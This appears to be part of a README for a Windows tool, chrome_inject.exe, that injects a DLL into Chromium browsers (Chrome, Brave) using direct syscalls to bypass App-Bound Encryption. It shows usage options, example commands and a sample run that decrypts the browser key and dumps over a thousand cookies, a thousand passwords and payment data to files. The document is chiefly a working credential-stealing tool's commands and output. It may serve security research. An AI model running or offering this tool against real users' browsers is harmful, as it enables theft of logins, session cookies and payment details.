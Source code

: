 Options

- `--start-browser` or `-s`
  Auto-launch the browser if it’s not already running.

- `--output-path <path>` or `-o <path>`
  Specifies the base directory for output files.
  Defaults to `.\output\` relative to the injector's location.
  Data will be organized into subfolders: `<path>/<BrowserName>/<ProfileName>/`.

- `--verbose` or `-v`
  Enable extensive debugging output from the injector.

- `--help` or `-h`
  Show this help message.

### Examples

```bash
# Standard injection into a running Chrome process:
PS> .\chrome_inject.exe chrome

# Auto-start Brave and show verbose debug logs:
PS> .\chrome_inject.exe --start-browser --verbose brave
```

#### Normal Run

```bash
PS> .\chrome_inject.exe --start-browser brave
------------------------------------------------
|  Chrome App-Bound Encryption Decryption      |
|  Direct Syscall Injection Engine             |
|  x64 & ARM64 | Cookies, Passwords, Payments  |
|  v0.13.0 by @xaitax                          |
------------------------------------------------

[*] Brave not running, launching...
[+] Brave (v. 138.1.80.120) launched w/ PID 26048
[*] Waiting for DLL (Pipe: \\.\pipe\efd06328-a141-4922-b8dc-881bc08e946c)

[*] Decryption process started for Brave
[+] COM library initialized (APARTMENTTHREADED).
[+] Reading Local State file: C:\Users\ah\AppData\Local\BraveSoftware\Brave-Browser\User Data\Local State
[+] Decrypted AES Key: 5f5b1c8112fba445332a9b01a59349f1112426753bfee2c5908aab6c46982fcd
[*] Processing profile: Default
     [*] 1406 cookies extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Brave\Default\cookies.txt
     [*] 1019 passwords extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Brave\Default\passwords.txt
     [*] 1 payments extracted to C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption\output\Brave\Default\payments.txt
[*] Decryption process finished.

[+] DLL signaled completion or pipe interaction ended.
[*] Brave terminated by injector.
```
